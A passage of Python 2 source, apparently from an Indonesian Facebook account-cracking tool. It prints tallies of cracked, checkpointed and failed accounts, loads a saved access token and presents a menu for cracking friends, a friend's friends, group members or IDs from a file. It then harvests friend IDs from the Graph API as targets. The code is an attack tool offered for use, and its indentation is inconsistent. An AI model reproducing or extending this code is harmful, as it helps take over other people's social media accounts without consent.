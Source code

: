 def hasil():
	print
	print 42*"\033[1;97m═"
	###Berhasil
	for b in berhasil:
		print(b)
	###CEK
	for c in cekpoint:
		print(c)
	###Gagal
	print 42*"\033[1;97m═"
	print ("\033[31m[x] Failed \033[1;97m--> " + str(len(gagal)))
	keluar()
	
############### SUPER MBF ################
def super():
	global toket
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.0)
		login()
	os.system('reset')
	print logo
	print "\033[1;97m║--\033[1;91m> \033[1;92m1.\033[1;97m Crack with list friend"
	print "\033[1;97m║--\033[1;91m> \033[1;92m2.\033[1;97m Crack from friend"
	print "\033[1;97m║--\033[1;91m> \033[1;92m3.\033[1;97m Crack from member group"
        print "\033[1;97m║--\033[1;91m> \033[1;92m4.\033[1;97m Crack from File"
	print "\033[1;97m║--\033[1;91m> \033[1;91m0.\033[1;97m Back"
	print "║"
	pilih_super()

def pilih_super():
	peak = raw_input("\033[1;97m╚═\033[1;91m>>> \033[1;97m")
	if peak =="":
		print "\033[1;91m[!] Wrong input"
		pilih_super()
	elif peak =="1":
		os.system('reset')
		print logo
		jalan('\033[1;91m[✺] \033[1;92mGet all friend id \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('reset')
		print logo
		idt = raw_input("\033[1;91m[+] \033[1;92mInput ID friend \033[1;91m: \033[1;97m")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mFrom\033[1;91m :\033[1;97m "+op["name"]
		except KeyError:
			print"\033[1;91m[!] Friend not found"
			raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
			super()
		jalan('\033[1;91m[✺] \033[1;92mGet all id from friend \033[1;97m...')
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']: